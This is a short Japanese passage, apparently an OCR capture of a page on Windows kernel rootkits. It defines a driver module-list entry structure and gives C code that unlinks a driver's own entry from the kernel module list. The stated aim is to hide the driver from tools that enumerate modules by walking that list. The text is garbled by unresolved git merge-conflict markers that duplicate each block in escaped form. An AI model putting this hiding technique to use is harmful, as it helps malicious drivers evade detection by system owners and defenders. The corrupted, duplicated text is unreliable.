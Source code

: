 <<<<<<< HEAD
-----
=======
\-\-\-\-\-
>>>>>>> 82c9994b6232b32daccdf031aaba412934bfa781
typedef struct _module_entry
{
    LIST_ENTRY list;        // モジュールリスト
    DWORD unknown1[4];
    DWORD base;
    DWORD driver_start;
    DWORD unknown2;
    UNICODE_STRING path;    // システムファイルパス
    UNICODE_STRING name;    // ドライバ名

} MODULE_ENTRY, *PMODULE_ENTRY;
<<<<<<< HEAD
-----
=======
\-\-\-\-\-
>>>>>>> 82c9994b6232b32daccdf031aaba412934bfa781

　最初のLIST_ENTRY構造体内部にて、左右のエントリのアドレスが格納されてる。
また、システムファイルのパスとドライバ名もある。他の部分は推測だが、読み
込まれたメモリのベースアドレスやエントリポイントなどの領域もあると考えら
れる。
　ただし、重要なことは、このエントリ情報の内容ではなく、エントリそのもの
を書き換えること。自身のエントリから、左右のエントリを書き換え、自身を隠
すコードを考える。

<<<<<<< HEAD
-----
driverData = *((MODULE_ENTRY **)((DWORD)pDriverObject + 20));
if(driverData != NULL){
    *((PDWORD)driverData->list.Blink) = (DWORD)
        driverData->list.Flink;
    driverData->list.Flink->Blink = driverData->list.Blink;
}
-----
=======
\-\-\-\-\-
driverData \= *((MODULE_ENTRY **)((DWORD)pDriverObject + 20));
if(driverData !\= NULL){
    *((PDWORD)driverData\->list.Blink) \= (DWORD)
        driverData\->list.Flink;
    driverData\->list.Flink\->Blink \= driverData\->list.Blink;
}
\-\-\-\-\-
>>>>>>> 82c9994b6232b32daccdf031aaba412934bfa781

　最初に、自身のエントリのアドレスを、DRIVER_OBJECT（pDriverObject）から
もらい、そのエントリアドレスをdriverDataとする。そして、まずは自身のエン
トリのLIST_ENTRYを参照し、その「Flink（次）のアドレス」を、自身の「Blink
（前）が指す先」に代入する。これで、自分の前のエントリは、自分の先のエン
トリを指すことになる。次に、自分の先のエントリのBlink（前）の値を、自分の
前のエントリの値に変更する。これで、連結エントリから自分が排除されたこと
になる。
　これにより、この連結エントリを辿ることでカーネルモジュールを参照する手
法をとっているプログラムからは、自身を隠蔽できる。
